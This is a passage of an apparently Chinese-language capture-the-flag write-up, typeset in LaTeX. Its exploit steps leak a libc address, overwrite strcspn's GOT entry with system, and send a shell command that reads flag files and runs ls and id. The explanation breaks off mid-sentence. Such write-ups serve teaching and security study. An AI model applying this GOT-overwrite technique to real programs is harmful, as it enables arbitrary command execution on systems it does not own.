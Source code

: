 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# 6) 主流程}
\NormalTok{probe }\OperatorTok{=}\NormalTok{ ch.read\_mem(}\BaseNTok{0x4010d0}\NormalTok{, }\DecValTok{8}\NormalTok{)                    }\CommentTok{\# 確認程式碼一樣（f30f1efa4154ba1f）}
\NormalTok{setvbuf }\OperatorTok{=}\NormalTok{ ch.read\_qword(}\BaseNTok{0x404020}\NormalTok{)                   }\CommentTok{\# 洩漏 libc}
\NormalTok{libc\_base }\OperatorTok{=}\NormalTok{ setvbuf }\OperatorTok{{-}}\NormalTok{ libc[}\StringTok{\textquotesingle{}setvbuf\textquotesingle{}}\NormalTok{]               }\CommentTok{\# 算 base（遠端 0x88540／本機 0x843f0）}
\ControlFlowTok{assert}\NormalTok{ ch.read\_qword(}\BaseNTok{0x404040}\NormalTok{) }\OperatorTok{{-}}\NormalTok{ libc\_base }\OperatorTok{==} \BaseNTok{0x2045c0}    \CommentTok{\# 用第二個指標交叉驗證（本機是 0x217580）}
\NormalTok{ch.write\_qword(}\BaseNTok{0x404010}\NormalTok{, libc\_base }\OperatorTok{+}\NormalTok{ libc[}\StringTok{\textquotesingle{}system\textquotesingle{}}\NormalTok{])      }\CommentTok{\# strcspn@got = system}
\NormalTok{ch.cmd(COMMANDS)                                    }\CommentTok{\# 完整 COMMANDS 見 exploit.py:161{-}162：}
                                                    \CommentTok{\#   "cat flag.txt /flag /home/*/flag.txt /app/flag.txt}
                                                    \CommentTok{\#    \textless{}本機 flag 絕對路徑\textgreater{} 2\textgreater{}/dev/null; ls {-}la; ls {-}la /; id; echo DONE"}
                                                    \CommentTok{\# → main 呼叫 system(buf)}
\end{Highlighting}
\end{Shaded}

\paragraph{\texorpdfstring{9.1 為什麼改 \texttt{strcspn@got}
就能執行指令？}{9.1 為什麼改 strcspn@got 就能執行指令？}}\label{ux70baux4ec0ux9ebcux6539-strcspngot-ux5c31ux80fdux57f7ux884cux6307ux4ee4}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
main 的迴圈每輪都做：
    read(0, buf, 0x1ff);        // 讀我們這一行
    strcspn(buf, "\n");         // ← 這一行的 GOT 被我們改成 system
\end{Verbatim}

\texttt{strcspn(buf,"\textbackslash{}\allowbreak{}n")} 的參數是
\texttt{rdi\ \allowbreak{}=\ \allowbreak{}buf}（我們這一行）、\texttt{rsi\ \allowbreak{}=\ \allowbreak{}"\textbackslash{}\allowbreak{}n"}。
把 GOT 改成 \texttt{system} 後，實際呼叫變成：
\end{document}
